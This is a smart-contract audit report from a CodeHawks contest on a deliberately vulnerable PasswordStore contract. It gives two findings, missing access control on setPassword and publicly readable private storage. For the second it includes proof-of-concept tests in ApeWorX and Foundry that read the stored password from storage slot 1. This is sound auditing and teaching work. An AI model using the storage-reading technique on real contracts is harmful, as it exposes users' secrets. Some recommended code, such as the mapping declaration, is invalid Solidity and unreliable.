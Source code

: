 # First Flight #1: PasswordStore - Findings Report

# Table of contents

- ## [Contest Summary](#contest-summary)
- ## [Results Summary](#results-summary)
- ## High Risk Findings
  - ### [H-01. Improper Access Control](#H-01)
  - ### [H-02. Broken Access control](#H-02)

# <a id='contest-summary'></a>Contest Summary

### Sponsor: First Flight #1

### Dates: Oct 18th, 2023 - Oct 25th, 2023

[See more contest details here](https://www.codehawks.com/contests/clnuo221v0001l50aomgo4nyn)

# <a id='results-summary'></a>Results Summary

### Number of findings:

- High: 2
- Medium: 0

# High Risk Findings

## <a id='H-01'></a>H-01. Improper Access Control

## Summary

No access check in `setPassword` function.

## Vulnerability Details

Any one call the `setPassword` function and change the value of the `s_password` variable.

## Impact

Anyone can change the password stored inside the contract.

## Tools Used

Manual review, Ape.

## Recommendations

Add checks to see if the sender is the owner of the password or not

```js
modifier onlyOwner {
    require(msg.sender == owner);
    _;
}

function setPassword(string memory newPassword) external onlyOwner{
        s_password = newPassword;
        emit SetNetPassword();
}

// or

// again this can be read from contract storage. better to save sensitive info off-chain
mapping(address => string) Passwords private;

function setPassword(string memory newPassword) external onlyOwner{
        Passwords[msg.sender] = newPassword;
        emit SetNetPassword();
}
```

## <a id='H-02'></a>H-02. Broken Access control

# Broken Access control

## Summary

All storage is publicly visible on the blockchain, even private variables.

## Vulnerability Details

According to Solidity documentation, `statically-sized` variables (everything except mapping and dynamically-sized array types) are laid out contiguously in storage starting from position `0`. Multiple items that need less than `32 bytes` are packed into a single storage slot if possible.

## Impact

Anyone can read the password and the account associated with it. Which violates the whole idea of a password magagement system.

## POC

### ApeWorX

1. Setup an ape environment using `ape init`.

1. Setup `conftest.py` like this

```py
import ape
import pytest
from ape import project


@pytest.fixture(scope="session")
def accounts():
    return ape.accounts


@pytest.fixture(scope="session")
def test_accounts(accounts):
    return accounts.test_accounts


@pytest.fixture
def owner(test_accounts):
    return test_accounts[-1]


@pytest.fixture
def attacker(test_accounts):
    return test_accounts[-2]


@pytest.fixture
def PasswordStore(owner):
    return project.PasswordStore.deploy(sender=owner)
```

3. Setup the test file like this

```py
from ape import networks


def test_read_password_from_storage(owner, attacker, PasswordStore):
    password = "super_password"

    PasswordStore.setPassword(password, sender=owner)

    passwd = (
        networks.provider.get_storage_at(PasswordStore.address, 1)
        .decode()
        .replace("\x00", "")  # noqa
    ).strip()

    assert password == passwd
```

4. Run it using `ape test tests/bug_tests.py`.

### Foundry

1. The approach is same.

```js
// https://ethereum.stackexchange.com/questions/2519/how-to-convert-a-bytes32-to-string

function bytes32ToString(bytes32 _bytes32) public pure returns (string memory) {
        uint8 i = 0;
        while (i < 32 && _bytes32[i] != 0) {
            i++;
        }
        bytes memory bytesArray = new bytes(i);
        for (i = 0; i < 32 && _bytes32[i] != 0; i++) {
            bytesArray[i] = _bytes32[i];
        }
        return string(bytesArray);
    }

function test_read_password_from_storage() public {
        vm.startPrank(owner);
        string memory expectedPassword = "myNewPassword";
        passwordStore.setPassword(expectedPassword);

        vm.startPrank(address(2));
        bytes32 password = vm.load(address(passwordStore), bytes32(uint256(1)));

        assertEq(bytes32ToString(password), expectedPassword);
    }
```

2. Run `forge test --match-path test/PasswordStore.t.sol -vvvvv`

## Tools Used

Manual Review, ApeWorX, Foundry.

## Recommendations

Never store passwords and private keys without hashing them first.

## References

- https://medium.com/coinmonks/ethernaut-lvl-12-privacy-walkthrough-how-ethereum-optimizes-storage-to-save-space-and-be-less-c9b01ec6adb6
